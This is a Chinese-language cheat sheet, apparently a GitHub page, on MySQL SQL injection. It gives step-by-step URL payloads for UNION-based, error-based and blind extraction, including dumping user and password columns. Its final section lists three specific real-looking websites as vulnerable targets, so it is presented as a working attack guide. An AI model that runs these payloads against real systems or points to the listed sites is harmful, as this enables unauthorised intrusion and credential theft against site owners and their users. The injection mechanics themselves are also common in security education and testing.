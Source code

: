 ## 0x00 Mysql UNION Injection
判断注入点 (数字型)：

- www.example.com/xxx.php?id=1
- www.example.com/xxx.php?id=1' -> 不正常，则可能存在注入

确定注入点：

- www.example.com/xxx.php?id=1 and 1=1 -> 页面正常
- www.example.com/xxx.php?id=1 and 1=2 -> 页面异常
- **到这里可以确定存在注入点**

确定列数：

- www.example.com/xxx.php?id=1 order by 1 -> 正常
- www.example.com/xxx.php?id=1 order by 2 -> 正常
- ……
- ……
- www.example.com/xxx.php?id=1 order by 6 -> 错误
- **则查询的列数为5**

确认UNION查询是否可用：

- www.example.com/xxx.php?id=1 and 1=2 union select 1,2,3,4,5,6
- **如果页面有回显1,2,3,4,5,6中的任意一个，则可以用union查询，下面假设回显数字为1**

确认mysql版本：

- www.example.com/xxx.php?id=1 and 1=2 union select version(),2,3,4,5,6
- **如果mysql的版本为5.0以上则可以使用information_schema数据库来注入，如果版本低于5.0，就只能暴力猜解**

mysql5.0以上版本注入方法：

1. 获取当前数据库中的表
    - www.example.com/xxx.php?id=1 and 1=2 union select group_concat(table_name) from information_schema.tables where table_schema=database()
2. 获取某张表中的列
	- www.example.com/xxx.php?id=1 and 1=2 union select group_concat(column_name) from information_schema.columns where table_name=0x75736572
	- 表名的十六进制，这里是user
3. 获取数据
	- www.site.com/xxx.php?id=1 and 1=2 union select 1,concat(user,0x3a,pass,0x3a,id),3,4,5,6 from user
	- **这里及下面的 `0x3a` 为分隔符
字符型注入：
- www.example.com/xxx.php?city=nanjing' and '1'='1 -> 正常
- www.example.com/xxx.php?city=nanjing' and '1'='2 -> 异常
- **则说明存在注入点，以下步骤同数字型注入**

## 0x01 mysql error-based injection

**原理：**此种注入使用union查询没有回显数据，在有报错的情况下利用报错信息来获取数据

**利用思路：**当 group by 的字段不一样而查询结果已有一个，如查询 count(), sum() 时会报错 "Duplicate entry xxx from 'group_key'"

**利用例句：**

- select count(*),CONCAT(version(),0x3a,ROUND(RAND()*2))a from information_schema.TABLES GROUP BY a
- 或
- select sum(version),CONCAT(version(),0x3a,ROUND(RAND()*2))a from information_schema.TABLES GROUP BY a
- 报错信息：[Err] 1062 - Duplicate entry '5.5.28:2' for key 'group_key'
- 获取当前数据表名的语句：
    -  `www.site.com/xxx.php?id=1 and (select 1 from (select sum(version),CONCAT((select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,ROUND(RAND()*2))a from information_schema.TABLES GROUP BY a)b)`

## 0x02 mysql blind injection

**原理：** 此种注入既不报错，union查询也不回显，所以只能通过页面的不同返回情况来注入。  
**利用思路：** 充分利用数据库本身提供的函数，如 :ascii() substr() if（）   

例如，获取当前数据库名第一位的一种payload  

```mysql
select ascii(substr(database(),1,1)) from information_schema.tables limit 0,1

```   
继续利用 
```mysql
www.site.com/xxx.php?id=1  and (select if((payload)>99,1,0))  -> 返回正确 
www.site.com/xxx.php?id=1  and (select if((payload)>100,1,0))  -> 返回正确 
www.site.com/xxx.php?id=1  and (select if((payload)>101,1,0))  -> 返回错误 
```

则数据库第一位为 e（对应的ascii为101） 照此可以拿到所有想要的信息

## 0x03 几个有漏洞的站点
- http://www.burkemarine.com.au/category.php?cat_id=1 
- http://www.cideko.com/pro_con.php?id=3 
- http://www.vinayras.com/spider/diff.php?idd=518